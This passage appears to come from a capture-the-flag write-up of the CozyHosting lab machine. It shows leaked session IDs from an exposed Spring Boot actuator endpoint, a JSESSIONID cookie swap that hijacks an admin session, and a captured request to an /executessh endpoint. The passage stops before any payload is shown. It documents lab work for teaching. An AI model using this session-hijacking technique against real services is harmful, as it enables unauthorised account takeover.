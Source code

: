 However, when we navigate to http://cozyhosting.htb/actuator/sessions, we can see a list of sessions. Among them, there is a session belonging to kanderson

```
HTTP/1.1 200 
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 09 Sep 2023 04:50:06 GMT
Content-Type: application/vnd.spring-boot.actuator.v3+json
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Content-Length: 148

{
    "120074FB77C31C93529753263A93B192": "kanderson",
    "FA2AE22CE8C9ABEC15B715C1F751246E": "UNAUTHORIZED",
    "B4C2FF4C8C9F654E7471962DB8AB1ED3": "UNAUTHORIZED"
}
```

Using the value of the session that we have obtained from kanderson, we can use Burp Suite's match and replace function to replace the session key of our unauthorized session with that of the session key of kanderson to authenticate to the admin portal. In essence, we are modifying the cookie such that it becomes the following:

```
Cookie: JSESSIONID=120074FB77C31C93529753263A93B192
```

In the admin portal, we are able to find a POST request to the ```/executessh``` endpoint that could be used to connect the server to the Cozy Scanner. However, we realize that even if we use the IP address of cozyhosting.htb and kanderson as the username, we are unable to connect Cozy Scanner to our host as the host verification failed.


```
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin
Cookie: JSESSIONID=120074FB77C31C93529753263A93B192
Upgrade-Insecure-Requests: 1

host=10.10.11.230&username=kanderson
```
